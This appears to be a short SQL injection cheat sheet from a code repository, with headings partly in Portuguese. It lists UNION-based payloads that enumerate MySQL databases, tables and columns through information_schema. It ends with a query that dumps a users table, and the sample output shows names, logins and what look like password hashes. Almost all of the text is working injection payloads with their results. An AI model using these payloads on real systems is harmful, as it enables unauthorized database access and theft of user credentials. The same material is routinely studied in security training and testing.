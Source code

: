 # "Syntax"

Databases
---

```sql
group_concat(schema_name)
```

Tables
---

```sql
group_concat(table_name)
```

Columns
---

```sql
group_concat(column_name)
```

information_schema
---
	- schemata -> todos os nomes de bancos
	- tables   -> todos os nomes de tabelas
	- columns  -> todos os nomes de colunas 

## EXAMPLES

To get databases
---

```sql
-1 union select 1,2,3,group_concat(schema_name) from information_schema.schemata;
```

```
+----+------+-------+--------------------------------------------------+
| id | name | login | password                                         |
+----+------+-------+--------------------------------------------------+
|  1 | 2    | 3     | information_schema,performance_schema,mysql,auth |
+----+------+-------+--------------------------------------------------+
```

To get tables
---

```sql
-1 union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema="auth";
```

```
+----+------+-------+---------------+
| id | name | login | password      |
+----+------+-------+---------------+
|  1 | 2    | 3     | users,notices |
+----+------+-------+---------------+
```

To get columns
---

```sql
-1 union select 1,2,3,group_concat(column_name) from information_schema.columns where table_schema="auth" and table_name="users"
```

```
+----+------+-------+------------------------+
| id | name | login | password               |
+----+------+-------+------------------------+
|  1 | 2    | 3     | id,name,login,password |
+----+------+-------+------------------------+
```

To dump data
---

```sql
-1 union select * from auth.users;
```

```
+----+-----------------+---------+----------------------------------+
| id | name            | login   | password                         |
+----+-----------------+---------+----------------------------------+
|  1 | Joseff Bernards | joseff  | 95ae4ae00fa7a0c403333a60bad023d1 |
|  2 | Antonio Moura   | antonio | cf9bfe8ec50083c8cb3512230b8fb667 |
|  3 | Maria Sousa     | maria   | 0e3cb90d820186431cedb36aaed36bbb |
+----+-----------------+---------+----------------------------------+
```
